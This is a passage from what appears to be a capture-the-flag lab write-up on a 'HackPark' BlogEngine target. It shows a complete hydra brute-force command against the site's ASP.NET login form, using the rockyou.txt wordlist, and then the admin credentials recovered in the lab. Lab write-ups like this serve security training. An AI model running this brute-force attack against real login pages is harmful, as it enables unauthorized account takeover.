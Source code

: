 We can see that the error message is '**Login failed**'.

With that, we have all of the information we require to start our brute-forcing attack. We will be using the classic rockyou.txt file for our password wordlist. We will also try the attack with the username: **admin**, as that is one of the most common administrator usernames.

Our command looks like this:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.192.114 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=axRjnB%2B1TmS8i1Hwbx8X9Xjvkk8wBd8J2pvK88DXA1%2BZa0aL%2BNFovmHU5vlSPLh5QIflBnyN23ZLRco2PqAtCw%2BcPpaOUNQM%2FNVNMmwYco0jTW40crI4kC9bB64iXGbapeGPZ%2BFrrBgjOutqxFlRXuawgg5seMdK1p83%2BH8RIbhBBJrl&__EVENTVALIDATION=3WZp4eLcekUHr%2BcdriGax4x02RuYq8vHQ8dwX9UJWrcbY06qff%2FXQV9U%2BcvUrwOVth7j%2B9sd953X20thlPOTXgxZmjeGKdIzPvBAWda%2BQp0vv8WFGlEU9JGYfCnoNExgPIt058Ba4chb3r%2BmbH5qPoh0O1plVUwgXLbDMbthmRrHj%2F%2FN&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -V
```

![screenshot7](../assets/images/hackpark/screenshot7.png)

After a few minutes, Hydra managed to find the password for the administrator account! 

Credentials: **admin:1qaz2wsx**

---

### [ Now you have logged into the website, are you able to identify the version of the BlogEngine? ]

Let's go ahead and log into the BlogEngine service with our newly-found credentials.

Under the **About** section, we can find the version number of the service.
